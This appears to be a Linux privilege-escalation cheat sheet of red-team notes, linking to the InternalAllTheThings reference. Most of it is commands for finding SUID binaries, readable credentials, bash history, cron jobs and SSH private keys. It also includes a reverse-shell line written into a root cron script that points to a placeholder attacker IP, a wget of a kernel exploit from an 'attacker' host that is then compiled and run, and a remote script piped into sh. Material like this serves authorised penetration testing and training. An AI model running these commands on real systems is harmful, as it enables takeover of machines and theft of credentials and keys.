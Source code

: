 https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#summary
### Linpeas/Linenum
``` bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
#give execute permission with:
chmod +x .linpeas.sh
#Run linpeas
./linpeas.sh
```
### Initial Enumeration
``` bash
uname -a                    # Kernel version (find kernel exploits for version)
id                          # User and group info
sudo -l                     # Sudo permissions
ps aux                      # Running processes
env                         # Environment variables
```
### File System & Permissions
``` bash
find / -perm -u=s -type f 2>/dev/null          # SUID binaries
find / -perm -g=s -type f 2>/dev/null          # SGID binaries
find / -writable -type d 2>/dev/null           # Writable directories
ls -la /etc/passwd /etc/shadow                 # Check shadow file permissions
```
### Credentials and Misconfigs
``` bash
grep -r "password" /etc/ 2>/dev/null
find / -name "*.conf" -o -name "*.env" 2>/dev/null
cat ~/.bash_history
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```
### 'The ol' reliable' - Exploitable Sudo Permissions
``` bash
sudo -l
#Use GTFOBins to find escalation paths
```
### SUID Binaries
``` bash
find / -perm -4000 -type f 2>/dev/null
#Common exploitable binaries:
#/usr/bin/nmap
#/usr/bin/vim
#/usr/bin/find
#/usr/bin/perl
#/usr/bin/python
#Use GTFOBins to abuse them
```
### CRON Jobs
``` bash
ls -la /etc/cron* /var/spool/cron/crontabs
#Look for:
#Writable scripts
#Scheduled jobs running as root   
#If a cron job runs a script from a writable location:
echo "bash -i >& /dev/tcp/attacker_ip/4444 0>&1" > /path/to/script
```
### Exploiting Services
``` bash
#Check running services
netstat -tulnp 
ps aux | grep root
#Misconfigured services (e.g., MySQL, Apache) running as root may allow code injection or privilege escalation.
```
### Kernel Exploits
``` bash
uname -r
#Easier to check with linpeas or Linux Exploit Suggester
#Download exploit and run
wget http://attacker/dirty.c
gcc dirty.c -o dirty
./dirty
```
### SSH Keys
``` bash
ls -la /home /root /etc/ssh /home/*/.ssh/; 
locate id_rsa; 
locate id_dsa; 
find / -name id_rsa 2> /dev/null; 
find / -name id_dsa 2> /dev/null; 
find / -name authorized_keys 2> /dev/null; 
cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa
```
